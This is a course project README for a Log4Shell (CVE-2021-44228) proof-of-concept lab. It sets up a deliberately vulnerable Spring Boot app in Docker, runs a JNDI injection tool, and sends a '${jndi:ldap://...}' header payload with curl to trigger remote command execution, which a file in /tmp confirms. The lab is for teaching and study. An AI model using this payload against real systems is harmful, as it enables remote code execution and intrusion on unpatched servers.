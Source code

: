 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server that is running under the exploitation tool which ultimately executed the given command.

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/

https://github.com/welk1n/JNDI-Injection-Exploit

https://github.com/christophetd/log4shell-vulnerable-app
